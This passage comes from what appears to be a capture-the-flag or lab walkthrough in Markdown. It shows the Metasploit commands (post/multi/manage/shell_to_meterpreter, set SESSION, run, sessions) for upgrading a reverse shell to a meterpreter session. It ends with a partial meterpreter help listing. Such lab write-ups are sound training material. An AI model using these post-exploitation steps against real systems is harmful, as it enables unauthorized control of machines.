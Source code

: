 Now we have a reverse shell ! It is asked to background the shell using CTRL+Z.

## Privilege Escalation
**If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use ? (Exact path, similar to the exploit we previously selected)**  
I found [this web page](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646) that explain how to convert our shell to a meterpreter, we will use the post module  
```post/multi/manage/shell_to_meterpreter```.  
So the answer is : post/multi/manage/shell_to_meterpreter  
Let's type ```use post/multi/manage/shell_to_meterpreter```.  


**Select this (use MODULE_PATH). Show options, what option are we required to change ?**  
Now we can see the options of the module by typing ```show options``` again.  
![alt text](https://i.imgur.com/kcbpBqQ.png)  


The answer is : SESSION  

To know what sessions are running, we use ```sessions -l```.  
![alt text](https://i.imgur.com/MNwj6il.png)  


After that, we just have to use ```set SESSION 1```, where 1 is the ID of the running session.  
Now, we can run the post module to convert our shell to a meterpreter with ```run```.  

If we list sessions again, we see that we have 1 more session.  
![alt text](https://i.imgur.com/XB9IjTz.png)  


Now we just have to select the meterpreter session by using ```sessions 2```.
We can type ```help``` to have a list of commands available with the meterpreter.
```
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (for http/https)
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    pivot                     Manage pivot listeners
    pry                       Open the Pry debugger on the current session